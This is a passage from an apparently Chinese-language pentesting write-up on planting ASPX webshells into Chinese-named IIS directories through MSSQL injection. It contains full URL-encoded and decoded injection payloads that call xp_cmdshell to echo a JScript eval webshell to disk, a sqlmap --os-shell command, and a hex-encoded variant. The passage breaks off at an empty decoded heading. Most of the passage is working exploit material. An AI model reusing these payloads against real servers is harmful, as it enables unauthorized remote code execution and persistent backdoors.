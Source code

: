 ![图片](https://shs3.b.qianxin.com/butian_public/f4b5cf3538ab782c2bb0b939743038e2d.jpg)

**解码前：**

- 

```php
/sql.aspx?id=1%3BEXEC%20master..xp_cmdshell%20%27echo%20%5E%3C%25%40%20Page%20Language%3D%22Jscript%22%25%5E%3E%5E%3C%25%25eval%28Request.Item%5B%22xxxasec%22%5D%2C%22unsafe%22%29%3B%25%5E%3E%20%3E%20C%3A%5Cinetpub%5Cwwwroot%5C%E4%B8%AD%E6%96%87%E6%B5%8B%E8%AF%95%5Cshell1.aspx%27--
```

**解码后：**

- 

```php
/sql.aspx?id=1;EXEC master..xp_cmdshell 'echo ^<%@ Page Language="Jscript"%^>^<%%eval(Request.Item["xxxasec"],"unsafe");%^> > C:\inetpub\wwwroot\中文测试\shell1.aspx'--
```

![图片](https://shs3.b.qianxin.com/butian_public/f730d9cfa31bf30133391f61b94943162.jpg)

**注：**两个老哥遇到的都是MSSQL高权限注入在os-shell里不能执行带有中文的命令，当时我在本地测试找到以上两种解决方式，但他们在实战场景中都说没有成功，看来还是没有彻底解决该问题，这也说明了本地和实战还是存在些差异，还得根据实际情况去分析问题。

**0x06 sqlmap os-shell写马**

心有不甘的我决定再研究一下sqlmap的os-shell为什么不能执行带有中文的命令？继续使用BurpSuite抓取下os-shell的echo写马数据包，直接执行该命令还是会提示：系统找不到指定的路径。

- 

```php
sqlmap -u "http://192.168.1.109/sql.aspx?id=1" --os-shell --batch --proxy http://127.0.0.1:8080
```

- 

```php
echo ^<%@ Page Language="Jscript"%^>^<%%eval(Request.Item["xxxasec"],"unsafe");%^> > C:\inetpub\wwwroot\中文测试\shell2.aspx
```

![图片](https://shs3.b.qianxin.com/butian_public/fbb260099bac540aa7def6dee208d9f14.jpg)

**解码前：**

- 

```php
/sql.aspx?id=1%3BDECLARE%20%40clit%20VARCHAR%288000%29%3BSET%20%40clit%3D0x6563686f205e3c25402050616765204c616e67756167653d224a73637269707422255e3e5e3c25256576616c28526571756573742e4974656d5b2278787861736563225d2c22756e7361666522293b255e3e203e20433a5c696e65747075625c777777726f6f745ce4b8ade69687e6b58be8af955c7368656c6c322e61737078%3BINSERT%20INTO%20sqlmapoutput%28data%29%20EXEC%20master..xp_cmdshell%20%40clit--
```

**解码后：**
